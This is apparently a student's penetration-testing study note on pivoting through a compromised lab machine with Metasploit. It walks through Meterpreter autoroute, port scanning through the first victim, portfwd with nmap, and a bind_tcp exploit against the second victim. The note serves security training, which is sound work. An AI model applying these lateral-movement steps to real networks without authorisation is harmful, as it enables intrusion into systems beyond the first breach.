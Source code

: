 
From one system get access to other systems within the same network 
Meterpreter provides us with the ability to add a network route to the internal networks subnet performing **port-forwarding** and scan and exploit other systems on the network. 


Port Forwarding 
- Process of redirecting traffic from a specific port on a target system to a specific port on our system 
- Forward a remote port on a previously inaccessible host to a local port on our Kali Linux system so that we can remotely interact/exploit the service running on the port

![[Pasted image 20230925204807.png]]
We can access victim one bc we exploited it and now have access to it. 
With networking information (enumeration) we know that victim 1 is part of a internal/private subnet. 
We can use victim 1 as a foothold to get access to victim 2
We cannot access victim 2 through our kali system, we need to use victim 1 that we compromised to get access to victim 2. 
We need to know what ports are open on victim2 so we can try to exploit the services - to find this out we need port-forwarding. 


---


1. ``ping`` victim 1 
2. ``ping`` victim 2 (no response means we cannot connect, only through victim 1 )
3. nmap service detection on victim 1 
4. exploit victim 1 
5. Perform local enumeration on victim 1 
	1. ``sysinfo`` 
	2. ``getuid`` 
	3. ``ipconfig`` (the netmask gives id of the range)
6. add route from victim 1 to victim 2 by adding entire subnet that victim 1 is part of: ``run autoroute -s 10.10.29.0/20``![[Pasted image 20230925210153.png]]
7. ``run autoroute -p`` to display routing table 
	when the subnet is added we can scan any device on that subnet, from within msfconsole 
8. search `portscan` (use portscan/tcp) (the scanning is done through victim 2 bc we cannot communicate directly to victim 2)
	1. ``show options`` 
	2. specify ``target ip`` (victim 2 machine) 
	3. set ``port range ``

Next step is to identify exact service version on a port (e.g. 80) on victim 2 - the best tool for this is nmap. Nmap cannot be run in msfconsole therefore, port-forwarding is needed. Get back into meterpreter session of victim machine 1: 
- ``portfwd add -l 1234 -p 80 -r victim2_ip ``
  (= add following local port 1234 and we are forwarding port 80 on victim machine 2 to kali linux system) We will be able to access the service on port 80 on victim 2.
- open new tab
- ``nmap -sV -p 1234 localhost`` 
  (identify the exact service that is running on port 80 on victim_machine_2)
- when you identified vulnerable services on victim 2. Go back to msfconsole. and try to exploit it: 
	- search exploit module of vulnerable service on victim 2
	- set ``payload`` (not a reverse tcp but a bind tcp) ``windows/meterpreter/bind_tcp`` 
	- ``set rhost victim2_machineip``
	- run 
	meterpreter session on victim 2 
